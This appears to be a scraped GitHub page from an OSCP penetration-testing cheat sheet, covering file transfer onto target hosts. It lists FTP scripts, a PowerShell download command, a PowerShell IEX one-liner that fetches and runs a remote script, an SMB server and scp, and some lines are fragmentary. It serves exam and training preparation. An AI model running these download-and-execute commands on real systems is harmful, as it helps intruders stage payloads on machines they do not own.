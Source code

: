 # File Transfer

15 Ways to transfer a file [https://blog.netspi.com/15-ways-to-download-a-file/#perl](https://blog.netspi.com/15-ways-to-download-a-file/#perl)

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/File%20Transfer.md#ftp)FTP

/etc/init.d/pure-ftpd restart

Windows echo "open ">ftp.txt  
echo "offsec">>ftp.txt  
echo "offsec">>ftp.txt  
echo "bin">>ftp.txt  
echo "get file.exe">>ftp.txt  
echo "bye">>ftp.txt

ftp -s ftp.txt

Linux ftp -4 -d -v ftp://offsec:offsec@127.0.0.1//linuxprichecker.py < ftp upload one liner linux

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/File%20Transfer.md#powershell)Powershell

powershell.exe (New-Object System.Net.WebClient).DownloadFile("[https://example.com/archive.zip](https://example.com/archive.zip)", "C:\Windows\Temp\archive.zip")

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http:///<script>')"

powershell full path: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/File%20Transfer.md#smbsever)Smbsever

impacket-smbserver

net view \\<ip>

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/File%20Transfer.md#scp)SCP

After login through ssh scp user@remote:/path